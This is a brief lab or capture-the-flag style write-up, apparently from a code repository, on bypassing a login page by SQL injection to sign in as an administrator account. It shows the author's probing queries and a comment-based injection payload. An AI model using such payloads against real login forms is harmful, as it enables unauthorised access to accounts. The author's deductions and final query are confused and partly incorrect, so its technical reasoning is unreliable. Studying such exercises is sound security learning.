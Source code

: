 # SQL injection - login functionality

## end goal: perform SQL injection attack and log in as "administraitor" user

login to admin account:
`administraitor`

## analysis

``` SQL
 SELECT firstname FROM users where username='admin' and password='admin';
--and i get nothing but if i check random user and password like this:
 SELECT firstname FROM users where username='random_letters' and password='random_letters_and_numbers';
--i got an error "Invalid username or password." Then it has sql vunerability
let's try something like this
 SELECT firstname FROM users where username=''';
--now we get the backend server error. it 100% vunerable
 SELECT firstname FROM users where username='''--;
--i log in as administrator

```
